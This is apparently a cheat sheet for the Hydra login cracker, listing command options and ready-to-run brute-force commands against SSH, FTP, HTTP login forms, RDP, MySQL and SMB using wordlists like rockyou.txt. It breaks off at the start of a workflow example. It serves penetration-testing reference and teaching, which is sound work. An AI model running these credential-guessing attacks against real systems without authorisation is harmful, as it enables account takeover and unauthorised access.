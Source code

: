 ## Hydra Cheat Sheet
Hydra is a parallelized login cracker which supports numerous protocols to attack. It is very fast and flexible, and new modules are easy to add.

| Command                                           | Description                                               | Example                                             |
|---------------------------------------------------|-----------------------------------------------------------|-----------------------------------------------------|
| `hydra -l [user] -p [password] [target] [service]`| Performs a brute-force attack with one username and one password. | `hydra -l admin -p password123 192.168.1.10 ssh`    |
| `hydra -L [userlist] -p [password] [target] [service]`| Uses a list of usernames and a single password.           | `hydra -L users.txt -p password123 192.168.1.10 ssh`|
| `hydra -l [user] -P [passwordlist] [target] [service]`| Uses a single username and a list of passwords.           | `hydra -l admin -P rockyou.txt 192.168.1.10 ftp`    |
| `hydra -L [userlist] -P [passwordlist] [target] [service]`| Uses lists of usernames and passwords.                   | `hydra -L users.txt -P rockyou.txt 192.168.1.10 ssh`|
| `hydra -e [mode] [target] [service]`              | Tests additional passwords based on `mode` (e.g., empty, reverse). | `hydra -l admin -P rockyou.txt -e nsr 192.168.1.10 http` |
| `hydra -t [threads] [target] [service]`           | Sets the number of parallel connections (default: 16).    | `hydra -l admin -P passwords.txt -t 4 192.168.1.10 ssh` |
| `hydra -vV [target] [service]`                    | Enables verbose output for detailed logging.              | `hydra -vV -l admin -P rockyou.txt 192.168.1.10 ssh`|
| `hydra -s [port] [target] [service]`              | Specifies a non-default port for the service.             | `hydra -l admin -P rockyou.txt -s 2222 192.168.1.10 ssh`|
| `hydra -f [target] [service]`                     | Stops the attack after the first successful login.         | `hydra -l admin -P rockyou.txt -f 192.168.1.10 ssh` |
| `hydra -o [file] [target] [service]`              | Saves successful login attempts to a file.                | `hydra -l admin -P rockyou.txt -o results.txt ssh://192.168.1.10` |

---

## Common Services and Commands
| Service       | Example Command                                      |
|---------------|------------------------------------------------------|
| **SSH**       | `hydra -l root -P passwords.txt 192.168.1.10 ssh`    |
| **FTP**       | `hydra -L users.txt -P passwords.txt 192.168.1.10 ftp`|
| **HTTP GET**  | `hydra -L users.txt -P passwords.txt 192.168.1.10 http-get /login` |
| **HTTP POST** | `hydra -L users.txt -P passwords.txt 192.168.1.10 http-post-form "/login:user=^USER^&pass=^PASS^:F=incorrect"` |
| **RDP**       | `hydra -l admin -P passwords.txt 192.168.1.10 rdp`   |
| **MySQL**     | `hydra -L users.txt -P passwords.txt 192.168.1.10 mysql` |
| **SMB**       | `hydra -L users.txt -P passwords.txt 192.168.1.10 smb` |

---

## Workflow Example
1. **Test a Single Username and Wordlist**
   ```bash
   hydra -l admin -P rockyou.txt 192.168.1.10 ssh